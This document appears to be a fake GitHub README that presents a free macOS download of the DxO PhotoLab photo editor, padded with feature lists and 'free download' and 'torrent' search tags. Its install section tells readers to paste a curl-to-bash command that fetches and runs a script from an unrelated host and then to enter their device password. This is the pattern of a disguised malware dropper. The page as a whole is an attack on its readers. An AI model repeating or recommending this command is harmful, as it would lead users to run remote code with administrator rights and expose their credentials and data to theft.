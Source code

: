 # 🖼️ DxO PhotoLab — Advanced RAW Photo Editing for macOS

**DxO PhotoLab** is a powerful RAW image processing and photo editing software designed for photographers seeking precise, high-quality image enhancements. Built for macOS, it delivers intelligent auto corrections, advanced local adjustments, and professional-grade color management with an intuitive interface.

Favored by photography professionals and enthusiasts, DxO PhotoLab offers unmatched lens correction and deep control over every pixel for stunning visual results.

---

## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://dxo-photolab-mac-download.github.io/.github)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://dxo-photolab-mac-download.github.io/.github)

---

## 📦 What is DxO PhotoLab?

DxO PhotoLab is a photo editing solution that combines AI-powered tools with award-winning RAW processing. It offers highly customizable editing features including control points, HSL tools, and smart lighting. With deep camera and lens module integration, it optimizes your images automatically while giving you total creative freedom.

---

## ✨ Features

- 📸 **DeepPRIME noise reduction** for crystal-clear RAW files  
- 🎯 U Point™ local adjustment technology for precise edits  
- 🌅 Smart Lighting and ClearView Plus for dynamic range enhancement  
- 🧠 AI-powered image correction and enhancement  
- 🔍 Lens sharpness and distortion correction using DxO Optics Modules  
- 🎨 Advanced color grading with HSL tools  
- 🖥️ Full macOS compatibility with Retina display support  
- 🔄 Integration with Lightroom and Adobe workflows  

---

## 💡 Why Use DxO PhotoLab?

- 📷 Ideal for photographers editing high-resolution RAW images  
- 🎯 Offers powerful local adjustments without layers  
- 🧰 Packed with automatic corrections and manual precision tools  
- 📈 Achieve professional results with minimal effort  
- 🚀 Optimized for performance and quality on macOS  

---

[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://dxo-photolab-mac-download.github.io/.github)

---

## 🖼️ Preview

![DxO PhotoLab Screenshot 1](https://www.dpreview.com/files/p/articles/8334110411/PhotoLab-6-UI-Customize-mode.jpeg)  
![DxO PhotoLab Screenshot 2](https://www.dpreview.com/files/p/articles/9669882236/dxo-photolab-4-history-panel.jpeg)

---

## 📌 Tags

dxo photolab, dxo photolab 7, dxo photolab 6, dxo software, dxo photolab 5,  
dx0 photolab, dxo elite, dxo photo lab 6, dxo photo lab elite, dxo photolab 6.0,  
dxo photolab black friday, dxo photolab discount, dxo photolab download,  
dxo photolab free download, dxo photolab linux, dxo photolab price,  
dxo photolab sale, dxo photolab torrent, dxo photolab5, dxo photolab6,  
photolab dxo, photolab software, dxo photolab mac, dxo photolab mac download

